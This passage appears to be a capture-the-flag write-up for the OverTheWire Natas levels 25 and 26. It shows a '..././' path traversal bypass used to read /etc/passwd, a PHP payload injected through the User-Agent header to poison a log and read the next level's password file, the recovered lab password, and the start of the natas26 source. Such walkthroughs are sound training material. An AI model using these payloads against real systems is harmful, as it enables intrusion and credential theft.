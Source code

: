 The application allow us to change language by `setLanguage()` function.

When `setLanguage()`, the function `safeinclude()` is running to include another file.

The function `safeinclude()` replace `"../"` by `""` to avoid path traversal injection, but we can bypass by using payload `..././`.

Try access: http://natas25.natas.labs.overthewire.org/?lang=..././..././..././..././..././etc/passwd, we can see the response:

```
...
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync
```

The function `logRequest()` dump `$_SERVER['HTTP_USER_AGENT']` and `$message` into file `/var/www/natas/natas25/logs/natas25_{PHPSESSID}.log`. So we can inject php code into `$_SERVER['HTTP_USER_AGENT']` by custom Header User-Agent.

Explore the Cookie, we have `PHPSESSID=eaufuovudsaosoirjmihb93j66`,

Try access http://natas25.natas.labs.overthewire.org/?lang=..././logs/natas25_eaufuovudsaosoirjmihb93j66.log, we get log look like that:

```
[06.03.2022 20::19:41] Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 "Directory traversal attempt! fixing request." [06.03.2022 20::19:46] Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 "Directory traversal attempt! fixing request." [06.03.2022 20::20:48] Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 "Directory traversal attempt! fixing request." [06.03.2022 20::21:21] Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 "Directory traversal attempt! fixing request." [06.03.2022 20::22:29] Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 "Directory traversal attempt! fixing request." 
```

Change `User-Agent` header to: `<?php echo file_get_contents("/etc/natas_webpass/natas26");?>`, the password of natas26 will be written to the log file. See log and get password `oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T`.

### natas26

```php
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
```